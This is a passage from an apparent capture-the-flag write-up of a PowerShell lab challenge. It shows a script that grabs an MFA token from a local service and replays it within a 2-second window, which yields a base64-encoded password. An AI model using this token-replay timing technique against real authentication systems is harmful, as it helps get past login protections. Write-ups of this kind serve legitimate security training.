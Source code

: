 
Output:
```
<h1>Cookie 'mfa_code', use it at <a href='1733604255.4202056'>/mfa_validate/4216b4faf4391ee4d3e0ec53a372b2f24876ed5d124fe08e227f84d687a7e06c</a></h1>
```

#### Question 10
*Sweet we got a MFA token! We might be able to get access to the system.*
*Validate that token at the endpoint!*

If we just manually send a request to the `mfa_validate` endpoint, we get this response:

`<h1>[!] System currently in lock down</h1><br><h1>[!] Failure, token has expired. [*] Default timeout set to 2s for security reasons</h1>`

So we need to do this programatically immediately after receiving the `mfa_validate` URL to beat the 2s timeout.

```
# Create a WebSession object
$webSession = New-Object Microsoft.PowerShell.Commands.WebRequestSession

# Create and add a cookie to the WebSession
$cookie = New-Object System.Net.Cookie('token', '5f8dd236f862f4507835b0e418907ffc', '/', '127.0.0.1')
$webSession.Cookies.Add($cookie)

# Send the request with the cookie
$response = Invoke-WebRequest -Uri "http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C" -WebSession $webSession -Credential $Credential -AllowUnencryptedAuthentication

# Extract MFA token from response
$mfa_token = $response.Links.href

# Create new mfa cookie
$mfa_cookie = New-Object System.Net.Cookie('mfa_token', $mfa_token, '/', '127.0.0.1')
$webSession.Cookies.Add($mfa_cookie)

# Send MFA request
$response = Invoke-WebRequest -Uri "http://127.0.0.1:1225/mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C" -WebSession $webSession -Credential $Credential -AllowUnencryptedAuthentication

$response.Content
```

```
<h1>[+] Success</h1><br><p>Q29ycmVjdCBUb2tlbiBzdXBwbGllZCwgeW91IGFyZSBncmFudGVkIGFjY2VzcyB0byB0aGUgc25vdyBjYW5ub24gdGVybWluYWwuIEhlcmUgaXMgeW91ciBwZXJzb25hbCBwYXNzd29yZCBmb3IgYWNjZXNzOiBTbm93TGVvcGFyZDJSZWFkeUZvckFjdGlvbg==</p>
```
#### Q11
*That looks like base64! Decode it so we can get the final secret!*
